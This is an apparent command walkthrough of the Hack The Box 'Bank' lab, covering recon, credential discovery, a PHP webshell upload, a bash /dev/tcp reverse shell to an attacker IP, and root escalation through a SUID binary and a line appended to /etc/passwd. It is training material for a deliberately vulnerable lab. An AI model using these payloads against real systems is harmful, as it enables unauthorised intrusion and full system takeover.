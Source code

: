 Here’s your clean, command-focused walkthrough for **HTB: Bank**, grouped by phase with full context and explanations:

---

# 🏦 HTB: Bank — Command Writeup

## 🛰️ Recon

### 🔍 Full TCP Port Scan
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.29
```

### 🔍 Targeted Script & Version Scan
```bash
nmap -p 22,53,80 -sC -sV -oA scans/nmap-tcpscripts 10.10.10.29
```

### 🔍 UDP Scan (DNS)
```bash
nmap -p- -sU --min-rate 10000 -oA scans/nmap-alludp 10.10.10.29
```

---

## 🌐 DNS & VHost Enumeration

### 🔎 Zone Transfer to Discover Subdomains
```bash
dig axfr bank.htb @10.10.10.29
```

### 📝 Add to /etc/hosts
```
10.10.10.29 bank.htb chris.bank.htb ns.bank.htb www.bank.htb
```

### 🌐 Virtual Host Brute-Force
```bash
wfuzz -u http://10.10.10.29/ -H "Host: FUZZ.bank.htb" \
-w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt --hh 11510
```

---

## 🧪 Web Enumeration [HTTP](HTTP.md)

### 🧱 Gobuster (PHP Extensions)
```bash
gobuster dir -u http://bank.htb \
-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
-x php -t 50 -o scans/gobuster-bank.htb-root-medium-php
```

### 📂 Interesting Results
- `/balance-transfer/` → holds `.acc` files
- `/uploads/` → 403 Forbidden
- `/inc/` → contains internal PHP includes
- `/support.php` → file upload

---

## 🔓 Shell as `www-data`

### 📁 Analyze Balance-Transfer Files
```bash
curl -s http://bank.htb/balance-transfer/ | grep -F '.acc' | wc -l
curl http://bank.htb/balance-transfer/68576f20e9732f1b2edc4df5b8533230.acc
```
> Found one broken file with **plaintext creds**:  
> **Email**: chris@bank.htb  
> **Password**: `!##HTBB4nkP4ssw0rd!##`

### 🔐 Login via Web
> Log in to the portal using `chris / !##HTBB4nkP4ssw0rd!##`

---

## 🛠 Webshell Upload & Execution

### 🛡️ Filter Bypass – Debug Hint Reveals `.htb` Executable Extension

**Webshell**: `cmd.htb`
```php
<?php system($_REQUEST["cmd"]); ?>
```

**Execution**:
```bash
curl http://bank.htb/uploads/cmd.htb?cmd=id
```

### 🐚 Reverse Shell
Listener:
```bash
nc -lnvp 443
```

Payload:
```bash
curl http://bank.htb/uploads/cmd.htb \
--data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.41/443 0>&1"'
```

Shell Upgrade:
```bash
python -c 'import pty; pty.spawn("bash")'
# In local terminal:
stty raw -echo; fg
export TERM=screen
```

---

## 🔐 Privilege Escalation

### 🔍 SUID Binary Method #1 (Backdoor)
```bash
find / -type f -user root -perm -4000 2>/dev/null
/var/htb/bin/emergency  # Custom SUID root binary

/var/htb/bin/emergency
id && cat /root/root.txt
```

### 🔍 `/etc/passwd` Writable Method #2 (Manual Root User Injection)
```bash
# Create root-equivalent user
openssl passwd -1 0xdf
# Result: $1$q6iY9K5M$eYK1fPmp6OfjbHhWGqZIf0

echo 'oxdf:$1$q6iY9K5M$eYK1fPmp6OfjbHhWGqZIf0:0:0:root:/root:/bin/bash' >> /etc/passwd
su - oxdf
```

---

## 🔍 Beyond Root

### 🔁 Improper Redirects
```php
// /inc/header.php
if(empty($_SESSION['username'])){
  header("location: login.php");
  return;  // ❌ Should be 'exit;' instead
}
```

### 🔍 SUID Analysis
```bash
md5sum /var/htb/bin/emergency
md5sum /bin/dash
# Identical → emergency is renamed dash
```